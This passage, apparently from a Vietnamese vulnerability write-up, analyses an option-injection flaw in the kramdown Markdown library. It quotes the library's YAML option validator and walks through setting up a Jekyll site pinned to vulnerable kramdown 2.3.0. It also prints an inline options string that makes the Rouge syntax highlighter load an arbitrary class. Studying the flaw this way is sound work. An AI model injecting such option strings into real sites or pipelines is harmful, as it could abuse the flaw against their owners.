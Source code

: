 #### Wao, Wao. Như vậy làm sao để có thể Exploit???

Dựa vào [Kramdown:Options](https://kramdown.gettalong.org/options.html) ta có thể gọi tới hàm `Kramdown::Converter::SyntaxHighlighter::Rouge.call` 

```
{::options auto_ids="false" footnote_nr="5" syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: CSV, line_numbers: true\}" /}

```

Ngoài ra ta còn thấy tại module `Kramdown:Options` hàm `simple_hash_validator` đã gọi `YAML.safe_load(val)`. Như vậy ta cũng có thể cấu hình file YML để đưa payload mong muốn tới `Kramdown::Converter::SyntaxHighlighter::Rouge`

```ruby
def self.simple_hash_validator(val, name)
      if String === val
        begin
          val = YAML.safe_load(val)
        rescue RuntimeError, ArgumentError, SyntaxError
          raise Kramdown::Error, "Invalid YAML value for option #{name}"
        end
      end
      raise Kramdown::Error, "Invalid type #{val.class} for option #{name}" unless Hash === val
      val
    end
```

- Kramdown được sử dụng bởi Jekyll, GitLab Pages, GitHub Pages, và Thredd Forum. vì vậy mình quyết định thử nó với jekyll trước.

### 2. jekyll
 Đầu tiên thì mình cần dựng jekyll lên trước:
 - Cài đặt jekyll
```
gem install jekyll
```
- Tạo jekyll pages với tên jekyllTest
```
jekyll new jekyllTest
```
- Chỉnh sửa file `Gemfile.lock` đưa phiên bản kramdown về <= `2.3.0`
```
cd jekyllTest
```
File `Gemfile.lock`
```

...
kramdown (2.3.0)
...

```
- install page
```
 bundle install
```
Như vậy là chúng ta đã hoàn thành tạo một jekyll page. bây giờ chúng ta có thể đưa payload vào, để xem `Kramdown::Converter::SyntaxHighlighter::Rouge.call` có thực sự gọi được một method hay không.
